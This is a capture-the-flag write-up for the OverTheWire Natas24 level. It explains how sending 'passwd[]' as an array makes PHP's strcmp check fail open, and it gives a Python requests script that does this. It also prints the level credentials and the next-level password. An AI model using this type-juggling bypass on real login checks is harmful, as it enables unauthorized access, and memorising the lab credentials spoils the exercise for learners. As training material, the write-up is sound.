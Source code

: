 # CTF Writeup - **OverTheWire Natas23- Natas24**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas23 - Natas24
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 24-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using type juggling.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas24
Password: MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
URL:      http://natas24.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for a password. As we dont know anything about it lets try some random passwords. 

```bash
Password: abc
# Wrong!
Password: natas
# Wrong!
```

So, It will print the credentials of the next level if we input the correct password. Lets view the logic behind the password check in the source code.

```bash
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

We can see that this php code checks if the request contains the `passwd` parameter if it exists, then it gets the `passwd` from the request and compares it with the actual password using `strcmp()` which returns `0` if both the strings are true. But one thing we can notice is that we can input an array called `passwd[]` instead of `passwd` as it is not checking the type of the `passwd` parameter, this will help us break the `strcmp` function as shown below in the python code below. 


```bash
import requests

target = 'http://natas24.natas.labs.overthewire.org?passwd[]='
auth = ('natas24','MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd')

session = requests.Session()

r = session.get(target, auth=auth)
print(r.text)
```

The above script creates a session first with a request. It sends the `passwd` parameter using url and sends a get request. The php code will send out an array called passwd[] with no length. The string comparision tries to compare an array with a string this breaks the `strcmp` and returns the desired output which is `0`. This will give us the password for the next level.

```bash
# <html>
# <head>
# <!-- This stuff in the header has nothing to do with the level -->
# <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
# <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
# <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
# <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
# <script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>     
# <script>var wechallinfo = { "level": "natas24", "pass": "MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd" };</script></head>
# <body>
# <h1>natas24</h1>
# <div id="content">

# Password:
# <form name="input" method="get">
#     <input type="text" name="passwd" size=20>
#     <input type="submit" value="Login">
# </form>

# <br />
# <b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
# <br>The credentials for the next level are:<br><pre>Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws</pre>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
# </body>
# </html>
```


## Flag

**Flag:** ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws


---

## Lessons Learned

It was a simple challenge. I was though that since password is a 32 length character array we need to brute force, but i couldn't figure out that it was type juggling. 